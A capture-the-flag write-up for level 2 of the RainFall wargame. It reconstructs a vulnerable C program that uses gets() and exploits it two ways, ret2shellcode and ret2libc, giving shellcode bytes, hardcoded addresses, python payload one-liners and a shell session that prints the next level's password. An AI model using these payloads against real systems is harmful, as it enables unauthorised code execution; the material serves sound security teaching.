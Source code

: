 # Level 2

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void p(void)
{
    fflush(stdout);

    int buffer[16];
    gets(buffer);

    int tmp = buffer[20];
    if ((tmp & 0xb0000000) == 0xb0000000)
    {
        printf("(%p)\n", tmp);
        exit(1);
    }
    puts(buffer);
    strdup(buffer);
}

int main(void)
{
    p();
}
```

Let's focus on the `p` function. It reads input using the `gets` function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read.

In this case, the program's stack is allocated 104 bytes:
```
# Allocating 104 bytes on the stack
0x080484d7 <+3>:     sub    $0x68,%esp

# Calculate the address of ebp - 76, since we allocated 104 bytes for the stack and since our next variable start at ebp - 12, our buffer will therefore be 64 bytes (here buf is an int array, so 64 bytes = 16 * 4 bytes)
0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax

# Move 4 bytes above ebp aka the return address into eax
0x080484f2 <+30>:    mov    0x4(%ebp),%eax

# Moving the return address into ebp - 12 which is our next variable
0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
```

Although we allocated 104 bytes on the stack, our buffer only starts at ebp - 76, which means that we only have to write 76 bytes before overflowing the stack. Furthermore, we need to write 4 bytes to reach the return address so 80 bytes in total (as shown in the assembly code above). Anything written beyond those 80 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `p` function.

There's different ways to solve this challenge, we'll see two of them. First the intended way (I assume) with a ret2shellcode and then the ret2libc way.

### Ret2Shellcode
We opt for a shellcode designed to spawn a shell. This shellcode, taken from the [Exploit Database](https://www.exploit-db.com/exploits/41757), is compact and effective for our purpose:

`\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

To redirect the execution, after the buffer overflow, we need an address. We use `ltrace` to find that `strdup` returns to `0x0804a008`.

```bash
$ ltrace ./level2
[...]
strdup("") = 0x0804a008
```

Since `strdup` allocates the buffer that was read by `gets`, the address of the shellcode will be stored at `0x0804a008` (The address that was returned by strdup).

So our payload will be:
```
shellcode + padding + address of shellcode
Alternatively, you could place the padding before the shellcode, using NOPs.

"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*(80-21) + "\x08\xa0\x04\x08"

The padding is 80 - 21 because the shellcode is 21 bytes long.
```

Alright let's try it:
```bash
level2@RainFall:~$ (python -c 'print("\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*(80-21) + "\x08\xa0\x04\x08")' && cat) | ./level2
j
 X�Rh//shh/bin��1�̀������������������������������������������������������
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Perfect, let's move to the other solution.

### Ret2Libc
Ret2Libc (Return-to-Libc) is an exploit technique that doesn't require injecting shellcode but instead redirects the program flow to execute existing library functions.

A typical Ret2Libc exploit is constructed as follows:
```
padding + address of system + address of exit + address of "/bin/sh"

The address of exit is actually optional, but not providing it will cause the program to crash after executing the system function.
```

We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xb7e6b060  __libc_system
0xb7e6b060  system

# Exit
(gdb) info functions exit
0x080483d0  _exit
0x080483d0  _exit@plt

# /bin/sh
(gdb) info proc mappings
[...]
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
[...]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

However we'll need to include an extra step because of the following lines:
```c
if ((tmp & 0xb0000000) == 0xb0000000)
{
    printf("(%p)\n", tmp);
    exit(1);
}
```

Ealier, I mentionned that the return address was put into our next variable, which is `tmp`. So the `&` operator, along with the `0xb0000000` mask is used to check if our return address most significant byte is equal to `0xb`. If it is, the program will exit. So we need to find an address that doesn't start with `0xb`. 

Given that the address of the `system` function begins with `0xb`, it cannot be directly used. So we'll have to include the address of a `ret` instruction in our payload. When the program attempts to return to this address, the `ret` instruction pops the address of `system` into the EIP register, causing the program to jump to `system`.


Alright, let's craft our payload:
```
reminder: padding + address of system + address of exit + address of "/bin/sh"

"\x90"*80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xd0\x83\x04\x08" + "\x58\xcc\xf8\xb7"
```

Let's run it:
```bash
level2@RainFall:~$ (python -c 'print("\x90"*80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xd0\x83\x04\x08" + "\x58\xcc\xf8\xb7")' && cat) | ./level2
����������������������������������������������������������������>������������>`��X���
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

We are now level3! Let's move on to the next level.
